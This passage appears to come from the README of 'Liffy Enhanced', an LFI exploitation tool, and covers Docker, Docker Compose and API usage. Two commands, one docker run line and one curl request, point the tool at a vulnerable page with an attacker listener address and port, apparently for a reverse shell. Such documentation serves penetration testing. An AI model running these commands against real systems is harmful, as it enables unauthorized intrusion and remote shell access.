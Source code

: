 ### Using Docker

```bash
# Build the image
docker build -t liffy-enhanced .

# Run Liffy Enhanced
docker run -it --rm liffy-enhanced --help

# Run with volume mount
docker run -it --rm -v $(pwd)/data:/app/data liffy-enhanced \
  --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444
```

### Using Docker Compose

```bash
# Start all services
docker-compose up -d

# Run Liffy Enhanced
docker-compose exec liffy-enhanced python3 liffy_enhanced.py --help

# Run API server
docker-compose exec liffy-api python3 api_mode.py
```

## 🔌 API Usage

### Start API Server

```bash
# Start the API server
python3 api_mode.py

# Or with Docker
docker run -it --rm -p 5000:5000 liffy-enhanced python3 api_mode.py
```

### Using the API

```bash
# Execute technique via API
curl -X POST http://localhost:5000/api/execute \
  -H "Content-Type: application/json" \
  -d '{
    "target_url": "http://target/file.php?page=",
    "technique": "auto",
    "lhost": "192.168.1.100",
    "lport": 4444
  }'

# Get available techniques
curl http://localhost:5000/api/techniques

# Health check
curl http://localhost:5000/api/health
```
